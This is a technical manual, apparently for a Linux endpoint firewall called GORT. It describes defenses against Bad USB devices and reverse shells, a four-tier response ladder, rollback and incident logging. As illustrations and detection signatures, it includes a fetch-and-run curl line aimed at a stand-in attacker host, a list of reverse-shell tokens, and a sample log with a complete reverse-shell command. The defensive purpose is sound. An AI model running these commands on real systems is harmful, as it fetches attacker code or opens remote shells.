

# 🛡️ GORT Autonomous Sentinel & Bad USB Threat Defense Manual

> **Comprehensive Technical Guide to Autonomous Linux Endpoint Defense, Bad USB Countermeasures, Multi-Signal Triangulation, and False-Positive Minimization.**  
> *"Autonomous defense without collateral damage."*

---

## 1. Overview & Operational Principles

GORT Firewall's **Autonomous Sentinel (`autonomous_sentinel.py`)** provides continuous, automated endpoint protection against malicious intrusions, remote code execution (RCE), reverse shells, and unauthorized physical hardware injection (**Bad USB** devices such as Rubber Ducky, Bash Bunny, and PoisonTap).

### Core Operational Principles:
1. **Never Single-Signal Blocking:** Mitigation actions require correlated evidence across process lineage, execution directories, port profiles, and Zero-Trust metrics.
2. **Immutable System Core Whitelist:** Critical operating system daemons (`systemd`, `resolved`, `sshd`, `chronyd`, `dbus`) and local loopback/DNS infrastructure are protected by hard constraints and can **never** be autonomously killed or blocked.
3. **Non-Destructive Freeze Before Kill (`SIGSTOP`):** High-probability threats in Tier 2 are paused in RAM rather than terminated, preserving system state and guaranteeing 100% reversibility.
4. **Self-Healing TTL Decay:** Temporary Netfilter drop rules automatically expire after 15 minutes unless reinforced or pinned by the user.
5. **1-Click Rollback (`U` key):** A dedicated interactive modal restores paused processes with `SIGCONT`, lifts firewall drop rules, and records persistent user overrides.

---

## 2. Bad USB Attack Vectors & Multi-Layer Countermeasures



### Threat 1: HID Keystroke Injection (Rubber Ducky / MalDuino)
* **Attack Mechanism:** Emulates a USB keyboard to inject automated terminal commands (`Ctrl+Alt+T`, `curl http://attacker.com/p.sh | bash`) at hundreds of keystrokes per second.
* **GORT Defense:**
  - **Typing Velocity Tripwire:** Human typing speed rarely exceeds 12 chars/sec. Gort flags burst rates exceeding 50 chars/sec occurring within 10s of device insertion.
  - **Lock-Screen Policy:** Injects `authorized_default = 0` to reject new HID devices when the display manager is locked.

### Threat 2: USB Network Hijacking (PoisonTap / RNDIS Gadgets)
* **Attack Mechanism:** Presents as an Ethernet/RNDIS adapter (`usb0`, `rndis0`), responds to DHCP with low metric, and hijacks default routing and unencrypted DNS/HTTP sessions.
* **GORT Defense:**
  - **Route Metric Pinning:** Prevents newly added network adapters from overriding the default gateway metric without administrative approval.
  - **Zone 5 Quarantine:** Quarantines all USB-attached network interfaces in **Zero-Trust Zone 5 (High-Risk)**, blocking outbound traffic until explicitly approved.

### Threat 3: Malicious Removable Storage
* **Attack Mechanism:** SUID privilege escalation binaries or auto-run scripts placed on FAT32/ext4 removable drives.
* **GORT Defense:**
  - **Storage Hardening:** Enforces `noexec,nosuid,nodev` mount flags via `udisks2` configuration so binaries cannot execute directly from removable storage media.

---

## 3. The Graduated 4-Tier Action Ladder

Gort executes calibrated, proportional responses based on dynamic threat confidence (0–100%):

```
┌────────────────────────────────────────────────────────────────────────────┐
│                      GRADUATED ACTION LADDER                               │
├─────────┬──────────────────────┬───────────────────────────────────────────┤
│ TIER 0  │ Confidence < 60%     │ Silent observation & audit log recording  │
├─────────┼──────────────────────┼───────────────────────────────────────────┤
│ TIER 1  │ Confidence 60% – 79% │ Soft alert & bandwidth micro-throttling   │
├─────────┼──────────────────────┼───────────────────────────────────────────┤
│ TIER 2  │ Confidence 80% – 94% │ Non-destructive SIGSTOP freeze + 15m TTL  │
├─────────┼──────────────────────┼───────────────────────────────────────────┤
│ TIER 3  │ Confidence >= 95%    │ SIGKILL + Permanent Netfilter Kernel Drop │
└─────────┴──────────────────────┴───────────────────────────────────────────┘
```

### Tier 2: Non-Destructive Process Freeze (`SIGSTOP`)
* Triggered when a process exhibits anomalous execution paths (e.g. executing from `/tmp` or `/dev/shm`) without a critical reverse-shell signature.
* Sends `os.kill(pid, signal.SIGSTOP)`: The Linux kernel immediately suspends process execution while keeping all variables, sockets, and memory buffers intact in RAM.
* Injects a 15-minute temporary drop rule into `iptables` for the destination IP.
* If a developer or user was running a legitimate temporary tool, they press **`U` (Unfreeze / Rollback)** to send `SIGCONT` and resume execution seamlessly without loss of data.

### Tier 3: Autonomous Neutralization (`SIGKILL` + Drop)
* Reserved exclusively for multi-signal verified intrusions:
  - Command line contains reverse-shell tokens (`bash -i >& /dev/tcp/...`, `nc -e`, `mkfifo`, `python -c import socket...`).
  - Known dropper beacon on high-risk ports (`4444`, `1337`, `31337`) with no reverse DNS.
* Sends `SIGKILL` to terminate the offending PID and adds permanent Netfilter drop rules in both `INPUT` and `OUTPUT` chains.

---

## 4. 1-Click Rollback & Self-Healing Architecture

```
┌────────────────────────────────────────────────────────────────────────────┐
│                     1-CLICK INCIDENT ROLLBACK FLOW                         │
└─────────────────────────────────────┬──────────────────────────────────────┘
                                      │
                         User presses [U] in TUI
                                      │
                         ┌────────────▼────────────┐
                         │ RollbackModal Displayed │
                         │ (Evidence & Incident ID)│
                         └────────────┬────────────┘
                                      │
                         User clicks "↩️ Unfreeze"
                                      │
             ┌────────────────────────┼────────────────────────┐
             │                        │                        │
  os.kill(pid, SIGCONT)    iptables -D DROP <IP>     core.toggle_ip_ignore(<IP>)
 (Process resumed in RAM) (Firewall drop lifted)    (Policy override recorded)
```

---

## 5. Structured Forensic Incident Logging

Every autonomous intervention writes a complete JSON record to `~/.config/myfirewall/autonomous_defense.log` and `./autonomous_defense.log`:

```json
{
  "incident_id": "INC-1755836100-9999",
  "timestamp": "2026-08-21T22:15:00Z",
  "confidence_score": 98,
  "action_tier": "TIER_3_NEUTRALIZE",
  "threat_type": "REVERSE_SHELL_INTRUDER",
  "process": {
    "name": "sh",
    "pid": 9999,
    "user": "aug20",
    "exe": "/bin/dash",
    "cmdline": "sh -i >& /dev/tcp/185.190.140.2/4444 0>&1"
  },
  "network": {
    "protocol": "TCP",
    "remote_ip": "185.190.140.2",
    "remote_port": 4444
  },
  "evidence": [
    "NO_REVERSE_DNS",
    "HIGH_RISK_PORT_4444",
    "CRITICAL_SIGNATURE (bash -i)"
  ],
  "actions_taken": [
    "PROCESS_TERMINATED (SIGKILL PID 9999)",
    "NETFILTER_PERMANENT_DROP (185.190.140.2)"
  ],
  "ttl_seconds": 0,
  "rolled_back": false
}
```

---

## 6. Keyboard & Mouse Controls in GORT

| Hotkey | Feature | Function |
|---|---|---|
| **`U`** | **Unfreeze / Rollback** | Opens the incident rollback dialog to restore frozen PIDs and lift blocks. |
| **`E`** | **AI Safety Explanation** | Analyzes any connection using Google Antigravity AI / Gemini. |
| **`A` / `Space`** | **Ask Gort AI Copilot** | Opens conversational natural language security assistant. |
| **`5`** | **Auto-Defense Tab** | Isolates active incidents, frozen PIDs, and temporary drops. |
| **`B` / `I`** | **Block / Ignore** | One-touch Netfilter IP blocking or process ignore rules. |
| **`/` / `Esc`** | **Search / Clear** | Instant multi-field substring filter. |
| **`1` – `7`** | **Tab Navigation** | Switch between All, Outbound, Inbound, Zero-Trust, Auto-Defense, Blocked, and Ignored views. |
